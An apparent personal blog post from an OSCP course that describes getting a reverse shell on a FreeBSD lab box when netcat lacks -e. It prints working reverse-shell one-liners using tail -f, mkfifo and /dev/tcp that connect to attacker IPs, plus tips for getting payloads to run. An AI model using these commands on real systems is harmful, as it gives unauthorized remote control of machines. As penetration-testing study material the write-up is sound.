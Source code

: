 ```yaml
---
layout: inner
title: 'Using netcat without -e'
date: 2017-08-26 01:37
categories: security
tags: netcat hack
featured_image: '/images/posts/netcat-a-swiss-army-tool-1-638.jpg'
lead_text: 'Okay, okay, this is some kind of insiders thing. If you dont know what Im talking about from the title of this article, then there is nothing to see. Please move along!'
---
```


Recently in my OSCP course, I was struggeling a few hours to get a reversed shell connection. It was a FreeBSD box, not quite my expertise. Finally I came up with a simple solution using _tail -f_.

<img src="/images/posts/netcat_freebsd.png" 
     alt="Netcat on FreeBSD"
     class="media pull-right img-thumbnail">
I immediately found that netcat was installed, but ofcourse [without the e-option](https://www.google.nl/search?q=netcat+GAPING_SECURITY_HOLE). All references to netcat without -e suggest you use  After trying harder for many many many tries, I finally came up with the following simple solution.

1. Use _tail -f_ to feed commands from a temporary file to bash. (Using _-n 0_ to ignore any current content of the temporary file.)
2. Redirect the output of the shell command to netcat.
3. Redirect the output of netcat to the temporary file, so the tail command picks it up...

The result looks like:

```bash
tail -n 0 -f /tmp/1 | /bin/sh 2>&1 | nc -nv 10.11.0.49 443 1> /tmp/1
```

That's awsome! But don't forget, all your commands are stored in the /tmp/1 file... (ツ)

From many other options I found, none seemed to work. A quick test showed that the famous 
[/dev/tcp/&lt;ip&gt;/&lt;port&gt;](http://www.gnucitizen.org/blog/reverse-shell-with-bash/) 
did not work either. The following command did not result in any response on my machine.

```bash
echo foo > /dev/tcp/10.11.0.13/443
```

Ofcourse, after having rooted the machine, I was still wondering whether other options found on the internet could work too. In my case I was able to execute multiple commands by separating them with a semicolon. This way a pipe is created first, followed by: netcat reading input from that pipe, netcat redirecting output to bash, bash redirecting stderr and stdout to the pipe again.

```bash
mkfifo pipe; nc -nv 10.11.0.13 443 < pipe | /bin/sh 2>pipe >pipe 
```

To wrap up, which things slowed me down finding a way to obtain a reverse shell?
1. Not understanding the _mkfifo pipe_ command. This command makes a pipe in the _current_ directory. So not having any rights there, just really does not help...
2. Forgetting that the & character should be url encoded _and_ not by using &amp;. This made me lose the stderr output, that just really does not help either...
3. When _uname -a_ gives back "FreeBSD ... amd64" you probably should not try your Linux/x86 binaries. Oke, but where/how do I get a FreeBSD/amd64 payload?
4. Oh, and last: _chmod +x_ did not work, _chmod 777_ did the job... (◔_◔)

_If at first you don't succeed, try, try, try harder!_
